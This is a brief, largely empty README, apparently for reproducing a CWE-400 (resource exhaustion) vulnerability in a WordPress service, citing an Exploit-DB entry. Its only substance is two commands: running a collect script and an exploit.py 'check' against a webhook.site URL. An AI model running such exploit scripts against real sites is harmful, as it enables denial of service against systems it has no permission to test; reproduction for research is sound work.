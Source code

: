 # CWE-400

## Preliminary


## Setting

## Record Process

1. bash collect.sh
2. python3 exploit.py check https://webhook.site/7285c436-ffc5-47c5-8a17-xxxxxxxxxxx {wordpress_service     }

## Reference

https://www.exploit-db.com/exploits/47800